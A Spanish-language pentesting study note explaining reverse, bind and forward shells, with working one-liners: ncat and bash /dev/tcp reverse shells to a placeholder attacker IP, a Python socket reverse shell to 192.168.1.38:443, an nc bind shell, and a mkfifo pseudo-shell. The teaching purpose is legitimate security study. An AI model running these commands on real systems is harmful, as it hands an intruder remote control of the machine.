 ```yaml
--- 
- Tags: #explotación #basico #teoria
---
```


# Reverse Shell

### Es una técnica que permite a un atacante conectarse a una máquina remota desde una máquina de su propiedad. Es decir, se establece una conexión desde la máquina comprometida hacia la máquina del atacante. Esto se logra ejecutando un programa malicioso o una instrucción específica en la máquina remota que establece la conexión de vuelta hacia la máquina del atacante, premitiéndole tomar el control de la máquina remota. 

### En el ejemplo de la imagen, supongamos que la maquina victima tiene expuesto un puerto :80, con un servicio de apache2, el cual, es vulnerable a **RCE** (Remote Code Execution), una vez pudiendo ejecutar comandos como la maquina victima, al atacante le interesaria enviarse una consola interactiva por un puerto que el decida.

![[reverseShell.png|1000]]

### Algunos oneliners típicos para lograr esto son:

- #### Haciendo uso de net cat:
```shell
ncat -e /bin/bash {IP_atacante} {puerto}
```

- #### Haciendo uso de bash:
```shell
bash -i >& /dev/tcp/{IP_atacante}/{puerto} 0>&1 
```

- #### Haciendo uso de python: 
```python 
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.38",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
```

#### Más oneliners [aca](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

---

# Bind Shell 

### Esta técnica es el opuesto de la **Reverse Shell**, ya que en lugar de que la máquina comprometida se conecte a la máquina del atacante, es el atacante quien se conecta a la máquina comprometida. El atacante escucha en un puerto determinado y la máquina comprometida acepta la conexión entrante por ese puerto. El atacante luego tiene acceso por consola a la máquina comprometida, lo que le permite tomar el control de la misma. 

### En este caso, en el ejemplo de la imagen, el atacante al explotar el **RCE**, inyecta un comando malicioso, en este ejemplo `nc -nlvp 443 -e /bin/bash` que lo que hace es escuchar en el puerto 443 por conexiones, y cuando reciba una, otorgara la consola interactiva.

![[BindShell.png|1000]]

--- 

# Forward Shell 

### Esta técnica es utiliza cuando no se pueden estrablecer conexiones **Reverse** o **Bind** debido a reglas de Firewall implementadas en la red. Se logra mediante el uso de **mkfifo**, que crea un archivo **FIFO (named pipe)**, que se utiliza como una espcie de **consola simulada** interactiva a través de la cual el atacante puede operar en la máquina remota. En lugar de establecer una conexión directa, el atacante redirige el tráfico a través del archivo **FIFO**, lo que permite la comunicación bidireccional con la máquina remota.

## Ejemplo: 

#### Si ejecutaramos el sig comando...

```shell
mkfifo input; tail -f input | /bin/bash; 2>&1 > output 
```

#### ...veriamos que se creo un archivo **FIFO** llamado input y un archivo normal llamada output, la idea de esto es que ahora, haciendo uso de descriptores, podriamos redirigir las entradas a input y ver las salidas de estas en output.

```shell
echo "Este comando se va a alojar en output" > input 
cat output 
# ───────┬─────────────────────────────────────────────────
#        │ File: output
# ───────┼─────────────────────────────────────────────────
#    1   │ Este comando se va a alojar en output
# ───────┴─────────────────────────────────────────────────
```

 